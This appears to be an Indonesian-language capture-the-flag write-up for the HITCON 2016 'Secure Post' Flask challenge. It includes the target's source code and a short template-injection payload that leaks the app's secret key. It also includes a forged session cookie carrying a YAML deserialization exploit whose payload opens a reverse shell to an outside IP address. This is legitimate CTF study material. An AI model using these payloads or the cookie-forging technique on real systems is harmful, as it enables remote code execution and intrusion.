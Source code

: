 ```yaml
---
layout: post
title: "Hitcon 2016 : Secure Post"
description: "Hitcon 2016 : Secure Post"
headline: 
modified: 2016-10-10
date: 2016-10-10
category: ctf
tags: [Hitcon,Web Exploitation]
imagefeature: /images/php.jpg
mathjax: 
chart: 
comments: true
featured: true
---
```


### Problem :

Here is a service that you can store any posts. Can you hack it?
http://52.198.91.29/

### Solution : 

Di berikan web service dengan flask. dan kita bisa mengakses source code nya di `http://52.198.91.29/source`

```python

from flask import Flask
import config

# init app
app = Flask(__name__)
app.secret_key = config.flag1
accept_datatype = ['json', 'yaml']

from flask import Response
from flask import request, session
from flask import redirect, url_for, safe_join, abort
from flask import render_template_string

# load utils
def load_eval(data):
    return eval(data)

def load_pickle(data):
    import pickle
    return pickle.loads(data)

def load_json(data):
    import json
    return json.loads(data)

def load_yaml(data):
    import yaml
    return yaml.load(data)

# dump utils
def dump_eval(data):
    return repr(data)

def dump_pickle(data):
    import pickle
    return pickle.dumps(data)

def dump_json(data):
    import json
    return json.dumps(data)

def dump_yaml(data):
    import yaml
    return yaml.dump(data)


def render_template(filename, **args):
    with open(safe_join(app.template_folder, filename)) as f:
        template = f.read()
    name = session.get('name', 'anonymous')[:10]
    return render_template_string(template.format(name=name), **args)

def load_posts():
    handlers = {
        # disabled insecure data type
        #"eval": load_eval,
        #"pickle": load_pickle,

        "json": load_json,
        "yaml": load_yaml
    }

    datatype = session.get("post_type", config.default_datatype)
    data = session.get("post_data", config.default_data)

    if datatype not in handlers: abort(403)
    return handlers[datatype](data)

def store_posts(posts, datatype):
    handlers = {
        "eval": dump_eval,
        "pickle": dump_pickle,

        "json": dump_json,
        "yaml": dump_yaml
    }
    if datatype not in handlers: abort(403)
    data = handlers[datatype](posts)

    session["post_type"] = datatype
    session["post_data"] = data


@app.route('/')
def index():
    posts = load_posts()
    return render_template('index.html', posts = posts, accept_datatype = accept_datatype)

@app.route('/post', methods=['POST'])
def add_post():
    posts = load_posts()

    title = request.form.get('title', 'empty')
    content = request.form.get('content', 'empty')
    datatype = request.form.get('datatype', 'json')
    if datatype not in accept_datatype: abort(403)
    name = request.form.get('author', 'anonymous')[:10]

    from datetime import datetime
    posts.append({
        'title': title,
        'author': name,
        'content': content,
        'date': datetime.now().strftime("%B %d, %Y %X")
    })
    session["name"] = name
    store_posts(posts, datatype)
    return redirect(url_for('index'))

@app.route('/source')
def get_source():
    with open(__file__, "r") as f:
        resp = f.read()
    return Response(resp, mimetype="text/plain")

```


### Secure Post 

pada fungsi `add_post` terlihat bahwa author name yang kita input akan di simpan ke dalam session.
`session["name"] = name` dan pada fungsi `render_template` session kita di ambil 10 karakter pertamanya
`name = session.get('name', 'anonymous')[:10]`. kemungkinan kita bisa melakukan template string injection.

namun kita tidak bisa menggunakan payload yang lebih dari 10 karakter awalnya kita coba 
"\{\{config.items()\}\} " tapi tidak menghasilkan apa karena > 10 karakter. dan setelah beberapa lama akhirnya di temukan flag dengan "\{\{config\}\}"
pas 10 karakter.

```html
<p class="lead blog-description"><Config {'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_PATH': None, 'TRAP_HTTP_EXCEPTIONS': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_DOMAIN': None, 'USE_X_SENDFILE': False, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': 43200, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_HTTPONLY': True, 'SERVER_NAME': None, 'APPLICATION_ROOT': None, 'DEBUG': False, 'JSON_AS_ASCII': True, 'TESTING': False, 'JSONIFY_PRETTYPRINT_REGULAR': True, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'JSON_SORT_KEYS': True, 'LOGGER_NAME': 'post_manager', 'PREFERRED_URL_SCHEME': 'http', 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': 'hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}', 'TRAP_BAD_REQUEST_ERRORS': False}>
```

### Secure Post 2

ada 2 fungsi yang menarik `store_posts` dan `load_posts` awalnya saya kira `eval` dan `pickle` 
bisa di manfaatkan dalam hal ini untuk membantu melakukan RCE. tapi setelah di lihat lagi kodenya 
memiliki beberapa checking yang sangat strict terhadap `eval` dan `pickle` 

pengecekan di sini `accept_datatype = ['json', 'yaml']` dan `load_posts` di comments
dan beberapa handlers seperti ini `if datatype not in handlers: abort(403)`
sehingga kita mustahil untuk memanfaatkan itu.

ternyata `YAML` sifatnya pun sama dengan pickle ketika melakukan unserialize
tapi untuk melakukan injeksi kita tidak bisa langsung melakukan via `add_post`
kita injeksi langsung ke dalam session flask tersebut. di website nya juga ada 
pesan `Data is not stored in database`. jadi post kita di simpan di dalam session Flask

tapi flask itu melakukan signed sama cookie nya jadi kita ngak bisa 
langsung rubah. untuk itu saya simulasikan dengan `secret_key` yang sama
untuk generate cookie payload yang kita inginkan

```python

class Exploit(object):
 def __reduce__(self):
   fd = 1
   return (exec,
           ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("128.199.226.218",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);',))
   

# dump utils
@app.route('/')
def index():
    anu = yaml.dump(Exploit())
    serializer_interface = SecureCookieSessionInterface()
    serializer = serializer_interface.get_signing_serializer(app)
    out = serializer.dumps({
    "name": "shit",
    "post_data": "- "+anu,
    "post_type": "yaml"
})

    print(out)
    return render_template('index.html', out=out)

```

kemudian kita injeksikan session payload ke web tersebut. sebelumnya
kita nyalakan listening pada server kita misalnya port: 4444 seperti
dalam exploit di atas.

[![asciicast](https://asciinema.org/a/6khdwmh6c607znru18kahziij.png)](https://asciinema.org/a/6khdwmh6c607znru18kahziij)

Flag : `hitcon{unseriliaze_is_dangerous_but_RCE_is_fun!!}`
